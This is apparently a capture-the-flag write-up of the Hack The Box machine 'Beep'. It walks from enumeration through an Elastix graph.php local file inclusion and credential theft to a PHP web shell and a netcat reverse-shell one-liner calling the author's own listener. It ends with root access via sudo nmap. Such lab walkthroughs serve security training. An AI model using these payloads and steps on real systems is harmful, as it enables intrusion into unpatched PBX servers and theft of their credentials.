


# Hack the Box - Beep

## Step 1 - Accessing the site
After spawning the box, I tried to access the site via browser. The connection was immediately upgraed to https, but secure connection failed due to `SSL_ERROR_UNSUPPORTED_VERSION` -error.  


I wonder if this is a designed step in the machine, but Firefox has disabled [TLS 1.0 and TLS1.1](https://hacks.mozilla.org/2020/02/its-the-boot-for-tls-1-0-and-tls-1-1/). This told me I am dealing with an older system.

I launched BurpSuite and used its chromium based browser which works just fine:  


I haven't heard of "Elastix" before and decided to do some research, but that turned out to be harder than expected. Trying to access Elastix's site, I was greeted by the following:  


I wonder if it's some legacy solution? Wikipedia had answers for me:
>Elastix is a unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.

Elastix was originally a open source project, but it was acquired by a third-party company which made the project propriatery. Wikipedia says the latest public release was in 2016. The copyright footer on the target site is up to 2024, so perhaps we have a newer version?

So I was greeted with a login page and without any idea about the correct credentials, I tried default elastix passwords I found online.
- admin:admin
- admin:eLaStIx.2oo7
- admin:mypassword
- admin:password...

None worked, so time for some enumeration.

## Step 2 - Enumerating the Website
First thing I checked were the cookies. Cookie named "elastixSession" was found, perhaps this could be changed to a valid session cookie and gain access to the site?  


I did a nmap scan which found quite a open few ports. However, I have a feeling most of these are false positives.
```Sh
$ nmap -sV -p- 10.129.229.183
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-19 17:31 EET
Nmap scan report for beep.htb (10.129.229.183)
Host is up (0.043s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp?
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
856/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Host: 127.0.0.1
```

Running ffuf using wfuzz's megabeast.txt and scanning for php, html, js and txt extensions resulted in a handful of sites of which `robots.txt`, `register.php` and `index.php` were accessible without credentials.
```sh
admin                   [Status: 301, Size: 317, Words: 20, Lines: 10]
help                    [Status: 301, Size: 316, Words: 20, Lines: 10]
images                  [Status: 301, Size: 318, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 1785, Words: 103, Lines: 35]
mail                    [Status: 301, Size: 316, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 319, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 317, Words: 20, Lines: 10]
recordings              [Status: 301, Size: 322, Words: 20, Lines: 10]
register.php            [Status: 200, Size: 1785, Words: 103, Lines: 35]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3]
static                  [Status: 301, Size: 318, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

`index.php` is not too interesting (points to the login page), and `robots.txt` was fairly empty. As a reminder, sites use a file called robots.txt to tell search engine crawlers which URLs the crawler can access on the site and may contain interesting information about the site and its system (such as version numbers).  


The registration page `register.php` looked similar to the login page.  


However, as this was the most interesting site discovered by ffuf, I decided to investigate further using `BurpSuite's` intercept feature.

I sent a request from `register.php`, and for some reason no response is returned. Logging in from `index.php` didn't work with the new account. This told me that the registration failed.  


## Step 3 - Exploiting the LFI vulnerability
Next off I tried simply searching for "Elastix Vulnerability" and stumbled across [Elastix 2.2.0 - 'graph.php' Local File Inclusion](https://www.exploit-db.com/exploits/37637). I copied the LFI exploit `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` and sure enough, that worked!  


I copied the contents into a file on my local machine and searched for usernames and password. It didn't take long to find a username and a few password options from the file. Trying out these on the login page granted access to "admin" account.  
 

Before exploring the dashboard furhter, I wanted to see if these credentials were re-used and tried to ssh into the machine.
```sh
touhottaja@Laptop:~$ ssh admin@10.129.229.183
Unable to negotiate with 10.129.229.183 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
touhottaja@Laptop:~$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 admin@10.129.229.183
Unable to negotiate with 10.129.229.183 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
touhottaja@Laptop:~$ ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 -oHostKeyAlgorithms=+ssh-rsa admin@10.129.229.183
admin@10.129.229.183's password: 
Permission denied, please try again.
```

No luck there.

## Step 4 - Looking for Foothold

Since I had no luck with credential re-use, I started exploring the Elastix dashboard.  


I went through the menus one by one and found a handful of useful information:
- Host: bleep
- Machine is based on CentOS-5
- The packages installed on the machines (these can be used to check vulnerabilities)  


I went back to check the endpoints which I found using ffuf. The `/recordings` site greeted me with FreePBX 2.5 login page. The same credentials worked here (admin:jEhdIekWmdjE). This page didn't contain anything interesting, though.  
  


`/modules` endpoint revealed a bunch of modules used by FreePBX. Looking closer, the modules were programmed in php. My mind immediately went to uploading my own module. If that was possible, I could create a module that contained a php reverse shell which would grant me access into the system.  
  


Next I visited `/admin` endpoint which prompted for credentials as well. The same credentials worked. This lead me to FreePBX admin page, which revelead the verison number (FreePBX 2.8.1.4)  
  


The first menu I checked on the admin page was the Module Admin menu. There I found a Upload module button. Perhaps I could use this to upload my own module and spawn a reverse shell.  


I got the reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell). I saved the shell into a file `shell.php` and tried uploading it as a module. This didn't work, because FreePBX expects the file to be in tar+gzip (.tgz or .tar.gz) format. No biggie, I can do that easily with:
```sh
$ tar -zcvf shell.tar.gz shell.php
```
That failed due to format error. The filename has to be in format modulename-version.tar.gz. Again, simple to fix:
```sh
$ mv shell.tar.gz shell-0.1.tar.gz
```
The next error was file extraction error. The tar did not extract correctly. At this point it made more sense to read how the FreePBX module was supposed to be structured instead of trying to "brute force" it.

I went to github to see how open source FreePBX modules were structure and adjusted my module's structure. The correct structure looked like:
```sh
$ ls shell/
install.php  module.xml
```

`install.php` contained the reverse shell script from above and `module.xml` contained the following:
```sh
<module>
  <rawname>shell</rawname>
  <name>shell</name>
  <version>0.1</version>
  <publisher>John Doe</publisher>
  <license>MIT</license>
  <category>Admin</category>
  <description>php reverse shell</description>
</module>
```

After these changes the module was uploaded successfully.  


I set the module to be installed and with my reverse shell listener ready (my idea was the reverse shell script is executed when the module is installed):
```sh
$ nc -nvlp 4455
```
I pressed "process" on top of the adming page to install the module.  


That didn't work and resulted in a timeout.  


Not really sure what went wrong. After a quick break, I realized I had `<category>Admin</category>` in the `module.xml`. Perhaps installing admin modules required elevated privileges which this account didn't have. I changed the category from Admin to Basic and re-installed the module.  


Stil no luck. The connection timed out once again. Instead of installing the module, I tried to navigate to the uploaded module via browser at `/admin/modules/shell/`:  


Not 100-sure, but I think this is why the installation faild. I didn't have permission to access the modules folder, so while I could upload the reverse shell, I couldn't execute it. I went back to the admin panel for more searching. During my search, I went to the System Recordings page and found another field where I could upload my own files. I uploaded my file there and hit save.  


It appeared on the right side of the page and I was able to see where the file was uploaded on top of the page (`/var/lib/asterisk/sounds/custom/shell.php`)  


Unfortunately I couldn't figure out what to do from here, and I searched exploit-db for FreePBX vulnerabilities. I discovered one vulnerability that could be exploited using this System Recordings upload function, but it affecter versions 2.8.0 and below (the site was on 2.8.1.4).

After more searching I found something interesting. Under the Tools tab, there was "Asterisk CLI" and after playing with it for a while, I found out it could be used to execute shell commands.  
  
  

For some reason I couldn't get shell commands to work. I tried `! whoami`, `! ls`, `! env`, and a few reverse shell one-liners, but I couldn't get any feedback. Bummer.

I was sidetracked for a bit from the Asterisk CLI and found some user information:  


I went back to the Asterisk CLI and found a few interesting commands which showed user information:  
  
  
  

I discovered a handy page under the tools menu for viewing Asterisk Log Files. I had just sent my reverse shell (`$ busybox nc 10.10.14.57 4455 -e bash`) which didn't work as I hoped for. I wanted to check the log file if it provided any errors. It showed that remote UNIX connection was attempted. However, I didn't see anything in my listener, so I'm not sure if this was caused by my command.  
  


I went back to my notes and read through what I've had already discovered. I decided to give LFI another shot. Last time I only checked a single configuration file (/etc/amportal.conf), so maybe I missed something. I tried to access /etc/hosts via `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts`:  


The interesting users found in the file were "fanis" and "spamfilter" which both had home folders. I tried to ssh to the server as both users using the admin's password, but that didn't work. `/etc/hosts` didn't contain anything interesting.  


Then I remembered something. When I uploaded a file from the System Recordings menu, it showed the path where the file was uploaded. Maybe I could use the LFI vulnerability to navigate to the same directory and execute the reverse shell script:  
 

Well that didn't work, but I had a warning instead of an empty page! This meant I could access the uploaded file using the LFI vulnerability. Next I tried to spawn a PHP based command line with:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
And that seemed to work! However, none of the commands I passed returned anything.  
  

This got my hopes up and after trying a few different shell scripts, I found a [php reverse shell written by Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) which I similary uploaded from the System Recordings page, and with my listener ready, I accessed the file using the LFI vulnerability:  
  
I must say, a very fitting `$ fortune |cowsay`!

With a successful reverse shell, I upgraded it via:
```sh
$ python3 -c "import pty; pty.spawn('/bin/bash');"
bash: line 9: python3: command not found
$ python -c "import pty; pty.spawn('/bin/bash');"
bash-3.2$
# Ctrl+Z to put the session in background
$ stty raw -echo; fg
```

## Step 5 - user.txt
With a working reverse shell, I simply navigated to /home/fanis which contained the user flag.  
  


## Step 6 - Privilege escalation
With the user flag down, I started to look for ways to gain root access:

```sh
$ bash-3.2$ env
SELINUX_INIT=YES
CONSOLE=/dev/console
TERM=linux
OLDPWD=/home
INIT_VERSION=sysvinit-2.86
PATH=/sbin:/usr/sbin:/bin:/usr/bin
RUNLEVEL=3
runlevel=3
PWD=/home/fanis
LANG=C
PREVLEVEL=N
previous=N
HOME=/
SHLVL=6
_=/bin/en
```

```sh
bash-3.2$ sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

The user landed on (asterisk) had permission to run nmap as sudo. With this, gaining root access was simple:
```sh
$ sudo nmap --interactive
nmap> !sh
cat /root/root.txt
```

And with that done, the machine has been completed!  

